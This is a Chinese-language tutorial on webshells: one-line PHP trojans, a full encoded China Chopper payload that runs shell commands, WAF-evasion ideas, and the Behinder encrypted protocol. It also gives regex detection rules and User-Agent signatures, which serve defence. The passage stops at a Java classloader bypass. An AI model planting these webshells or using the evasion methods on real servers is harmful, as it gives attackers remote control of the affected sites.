




# Webshell

## 一句话木马

一句话木马就是哪些短小精悍的恶意代码。它们体积小、隐蔽性强、功能强大。例如

```php
eval(request("cmd"))
```

为了躲避WAF等防火墙或检测系统的查杀，一句话密码出现了很多变形，总的来看，目的在于用尽量少的字节，执行尽可能多的功能。

能够抵御木马的防护系统有很多:
- 主机型的IDS，安全狗，D盾等，它们主要检测的是特征码
- 网络流量，各种云WAF，各种商业硬件WAF等等。


## WebShell 管理工具
Webshell管理工具是用来分类管理webshell、发起请求、分析响应的工具，它在一定程度上提供了webshell操作的自动化。

应该说，webshell起源于站点管理工具，但又被提升功能以便于进行越权访问和驻留系统。

下面是一个使用“菜刀”工具的例子：



其中的payload部分为：
```php
caidao=Response.Write("->|");
var err:Exception;try{eval(System.Text.Encoding.GetEncoding(65001).GetString(System. Convert.FromBase64String("dmFyIGM9bmV3IFN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvKFN5c3RlbS5UZXh0LkVuY29kaW5nLkdldEVuY29kaW5nKDY1MDAxKS5HZXRTdHJpbmcoU3lzdGVtLkNvbnZlcnQuRnJvbUJhc2U2NFN0cmluZyhSZXF1ZXN0Lkl0ZW1bInoxIl0pKSk7dmFyIGU9bmV3IFN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzKCk7dmFyIG91dDpTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyLEVJOlN5c3RlbS5JTy5TdHJlYW1SZWFkZXI7Yy5Vc2VTaGVsbEV4ZWN1dGU9ZmFsc2U7Yy5SZWRpcmVjdFN0YW5kYXJkT3V0cHV0PXRydWU7Yy5SZWRpcmVjdFN0YW5kYXJkRXJyb3I9dHJ1ZTtlLlN0YXJ0SW5mbz1jO2MuQXJndW1lbnRzPSIvYyAiK1N5c3RlbS5UZXh0LkVuY29kaW5nLkdldEVuY29kaW5nKDY1MDAxKS5HZXRTdHJpbmcoU3lzdGVtLkNvbnZlcnQuRnJvbUJhc2U2NFN0cmluZyhSZXF1ZXN0Lkl0ZW1bInoyIl0pKTtlLlN0YXJ0KCk7b3V0PWUuU3RhbmRhcmRPdXRwdXQ7RUk9ZS5TdGFuZGFyZEVycm9yO2UuQ2xvc2UoKTtSZXNwb25zZS5Xcml0ZShvdXQuUmVhZFRvRW5kKCkrRUkuUmVhZFRvRW5kKCkpOw%3D%3D")),"unsafe");}catch(err){Response.Write("ERROR:// "%2Berr.message);}Response.Write("|<-");Response.End();&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJndob2FtaSZlY2hvIFtTXSZjZCZlY2hvIFtFXQ%3D%3D
```

可以看到，虽然关键的代码采用了base64编码，但是payload中扔有多个明显的特征，比如有eval关键词，有Convert.FromBase64String，有三个参数，参数名为caidao（密码字段）、z1、z2，参数值有base64编码。针对这些特征很容易写出对应的防护规则，比如：POST请求中有Convert.FromBase64String关键字，有z1和z2参数，z1参数值为4个字符，z2参数值为base64编码字符。

菜刀作为第一代Webshell管理工具，目前已经被众多waf产品所识别。

菜刀这一工具携带了过多敏感或被waf等认定为“有问题”的关键字。为了免杀有以下一些思路：
- 改变payload中的关键字，例如把z1改为z9
- 将载荷进行多种编码
- 将载荷进行加密
- 使用载荷的编译后字节码

这里防御者有一些后发优势：
- 攻击者脚本的类型和大小往往受限制；
- 攻击脚本必须是服务器所能执行的代码，所以往往是文本型的，可通过编码转换为可读形式；
- 多次使用的攻击脚本，容易被特征化，形成规则。

但攻击者仍然可以在一定程度内增加混淆效果，例如：
- 使用编译后代码，例如JVM可执行的class文件；
- 使用会话密钥加密载荷，使每一次请求的载荷看起来都不相同。

有些研究人员提出了下列流程对webshell进行加密：

- 首次连接一句话服务端时，客户端（webshell管理端）首先向服务器端发起一个GET请求；
- 根据大多服务器的会话机制，服务器端随机产生一个128位的密钥，把密钥回显给客户端，同时把密钥写进服务器侧的Session中。
- 客户端获取密钥后，对本地的二进制payload先进行AES加密，再通过POST方式发送至服务器端。
- 服务器收到数据后，从Session中取出秘钥，进行AES解密，解密之后得到二进制payload数据。
- 服务器解析二进制payload文件，执行任意代码，并将执行结果加密返回。
- 客户端解密服务器端返回的结果。

### 冰蝎

冰蝎是当下最流行的WebShell客户端，它可以在HTTP明文协议中建立了加密隧道,以躲避安全设备的检测。对于工作于七层的IDS，可以检测HTTP完整的双向内容，这样检测冰蝎并非难事。而对于传统的工作于四层的IDS，只能检测TCP层的单个“帧”，要想检测冰蝎，似乎难于登天。

#### 冰蝎通讯原理
冰蝎使用对称加密算法。加密过程总共分三步：
- 第一步，密钥传递阶段。客户端向服务器请求密钥，密钥传递是完全明文的。



- 第二步，算法协商阶段。SSL握手时会把自己支持的加密算法列表明文发给对方，然而这样会暴漏更多的特征（JA3指纹），冰蝎很显然是考虑到了这一点，它很聪明的将一串payload用不同的算法加密发送给服务器，如果服务器成功解密，那么接下来的通讯便用这种算法。如果算法不对解密失败，那么响应为空，冰蝎继续更换另一种加密算法进行尝试，直到成功为止。加密算法一般为AES128和异或。



- 第三步，正式通讯阶段。客户端使用上述密钥加密payload，POST给服务端，服务端解密后执行将结果又以加密方式作为Response Body返回给客户端。


第二步与第三步其实用的是同一个通讯接口，因此特征类似。

#### 对behinder的检测

##### 弱特征1：密钥传递时URL参数

密钥传递时，URI只有一个参数，即key-value型参数，只有一个参数。这里的key一般是黑客设置的密码，常见的都是简单短密码，即10位以下字母和数字。而value一般是2到3位的随机数字。再结合一般的webshell为可执行脚本，所以可设置下列过滤正则表达式：

```\.(php|jsp|asp|jspx|asa)\?(\w){1,10}=\d{2,3}HTTP/1.1```

##### 弱特征2 加密时的URL参数

在加密通信中，没有URL参数。但这本身也是一种特征。所以过滤正则式可以设为：

```\.(php|jsp|asp|jspx|asa) HTTP/1.1```

##### 强特征：Accept字段

Behinder（冰蝎）默认的Accept字段的值很特殊，这个特征存在于冰蝎的每一个通信阶段：

```Accept:text/html,image/gif,image/jpeg,*;q=.2,*/*;q=.2```

冰蝎支持自定义HTTP Header，因此该特征可以被绕过。

##### 强特征：UserAgent字段

冰蝎内置了十余种UserAgent，每次连接shell会随机选择一个进行使用。

以下UserAgent列表是从冰蝎的jar包中提取的，可见大多是比较早的浏览器，现在很少有人使用。而且有些国产浏览器甚至精确到了小版本，众所周知，很多国产浏览器是默认自动更新，正常用户很少用过早的版本，因此可以作为强特征使用。

列表中有少量的UserAgent，目前用户量较大，不可作为强特征。

如果发现历史流量中同一个源IP访问某个URL时，命中了以下列表中多个UserAgent，那基本确认就是异常（例如冰蝎）了。

```
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1(KHTML, like Gecko) Chrome/14.0.835.163 Safari/535.1    

Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0)Gecko/20100101 Firefox/6.0    

Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.50(KHTML, like Gecko) Version/5.1 Safari/534.50 " BOpera/9.80 (Windows NT6.1; U; zh-cn) Presto/2.9.168 Version/11.5    

Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64;x64; Trident/5.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; Tablet PC 2.0; .NET4.0E)    

Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64;Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729;Media Center PC 6.0; .NET4.0C; InfoPath.3)    

Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1;Trident/4.0; GTB7.0)    

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1) , 7    

Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)    

Mozilla/5.0 (Windows; U; Windows NT 6.1; )AppleWebKit/534.12 (KHTML, like Gecko) Maxthon/3.0 Safari/534.12    

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64;Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729;Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)    

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64;Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729;Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E; SE 2.X MetaSr 1.0)    

Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US)AppleWebKit/534.3 (KHTML, like Gecko) Chrome/6.0.472.33 Safari/534.3 SE 2.XMetaSr    

Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64;Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729;Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)    

Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.1 (KHTML,like Gecko) Chrome/13.0.782.41 Safari/535.1 QQBrowser/6.9.11079.20    

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64;Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729;Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E) QQBrowser/6.9.11079    

Mozilla/5.0 (compatible; MSIE 9.0; WindowsNT 6.1; WOW64; Trident/5.0)    
```

##### 强特征：传递的密钥
加密所用密钥是长度为16的随机字符串，小写字母+数字组成。密钥传递阶段，密钥存在于Response Body中，如前文冰蝎通讯原理图2。

因此对密钥设置特征过滤正则表达式为：```\r\n\r\n[a-z0-9]{16}$```

##### 弱特征：加密数据上行

在加密通讯时，php/jsp shell会提交base64编码后的数据。用如下正则便可以很好的匹配。

```\r\n\r\n[a-zA-Z\d\+\/]{20,}```

上式中的数字20表示需要至少有20个可匹配字符才返回匹配成功。一般来说，待过滤的字符流有几K Bytes。在TCP层通常会分数据包传输数据，有些IDS工作于传输层，这些数据包的长度不一，不能以20为经常值，需要按需调整。减少误报。

##### 弱特征：加密数据下行

该特征同样存在于加密通讯时，在ResponseBody中的数据是加密后的二进制数据。

如何用正则去匹配二进制数据呢？方法不固定。下面的仅供参考。

二进制数据中可能有：
- 不打印字符
- 可打印字符

它们出现的位置是随机的。如果第一个位置是可见字符，那么之后的6个字符之内有很大概率出现不可见字符。

匹配不可见字符使用零宽负行断言的方式，即不认识的字符即为不可见字符。为了增加准确性，本条策略里扩展了“不可见字符”的定义，这里认为的不可见字符，除了“无法显示的字符”之外，还加入了HTML/JSONP中不常见的字符。

``` \r\n\r\n[\w]{0,6}[^\w\s><=\-'"\/\.:;\,\!\(\)\{\}]+  ```

如果用户加载图片/视频等多媒体二进制文件的话也是会引发误报，因此我们再写一条策略，规定MIME类型为html。

```Content-Type: text/html```

这两条规则是“且”的关系。意思是如果发现text/html类型的文档是二进制的，那么它就是可疑的。

需要注意的是，并不是所有正则引擎都支持“断言”模型。在使用本策略之前，请确认你使用的正则引擎支持断言，并进行严格测试。

##### 弱特征8：长连接（可绕过）
冰蝎通讯默认使用长连接，避免了频繁的握手造成的资源开销。因此默认情况下，请求头和响应头里都会带有:

```Connection: Keep-Alive ```   

这个特征存在于冰蝎的任何一个通讯阶段。

### WebShell 绕过方式

#### 使用已编译的二进制字节流

一般的Java一句话木马无法满足编译后执行的需求。

##### 服务器端动态解析二进制class文件

首先要让服务器端有将字节流解析为class文件的能力。正常情况下，Java没有提供直接解析class字节数组的接口，不过 classloader 内部实现了一个 protected的 defineClass方法，可以将 byte[] 直接转换为 class。

因为该方法是protected的，我们没办法在外部直接调用，当然我们可以通过反射来修改保护属性，不过我们选择一个更方便的方法，直接自定义一个类继承classloader，然后在子类中调用父类的defineClass方法。
下面我们写个demo来测试一下：